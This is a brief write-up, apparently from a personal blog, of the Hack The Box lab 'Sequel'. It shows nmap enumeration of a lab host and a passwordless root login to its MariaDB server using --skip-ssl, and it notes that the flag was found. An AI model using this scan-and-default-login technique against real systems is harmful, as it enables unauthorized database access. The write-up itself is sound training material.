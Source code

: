 ```yaml
---
layout: post
title: sequel
categories: htb
tags:
- htb
- starting_point
- sequel
- mysql
author: nicoliboli
description: starting point | tier 1 | box 1
date: '2025-06-28 21:03:37 -0400'
---
```

# enumeration

```
$ nmap 10.129.95.232             
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-28 20:48 EDT
Nmap scan report for 10.129.95.232
Host is up (0.098s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT     STATE SERVICE
3306/tcp open  mysql

Nmap done: 1 IP address (1 host up) scanned in 13.57 seconds

$ nmap -sC -sV -p 3306 10.129.95.232
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-28 20:48 EDT
Nmap scan report for 10.129.95.232
Host is up (0.10s latency).

PORT     STATE SERVICE VERSION
3306/tcp open  mysql?
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.27-MariaDB-0+deb10u1
|   Thread ID: 69
|   Capabilities flags: 63486
|   Some Capabilities: Speaks41ProtocolNew, DontAllowDatabaseTableColumn, Support41Auth, SupportsCompression, SupportsLoadDataLocal, SupportsTransactions, ConnectWithDatabase, FoundRows, IgnoreSigpipes, IgnoreSpaceBeforeParenthesis, InteractiveClient, ODBCClient, LongColumnFlag, Speaks41ProtocolOld, SupportsMultipleResults, SupportsMultipleStatments, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: F3i;)Zh~`ExNYX.y:Stm
|_  Auth Plugin Name: mysql_native_password

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 206.28 seconds
```

## port 3306 - mysql

tried to log in as the `root` user and get the following error

```
$ mysql -h 10.129.95.232 -u root        
ERROR 2026 (HY000): TLS/SSL error: SSL is required, but the server does not support it
```

looked at the `man` page and found that ssl is enabled by default

![sequel_man](/assets/img/sequel_man.png)

try to connect again with the `--skip-ssl` flag and get a login

```
$ mysql -h 10.129.95.232 -u root --skip-ssl
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 79
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Support MariaDB developers by giving a star at https://github.com/MariaDB/server
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]>
```

# exploitation

after enumerating the databases and tables, i found the flag

![sequel_flag](/assets/img/sequel_flag.png)
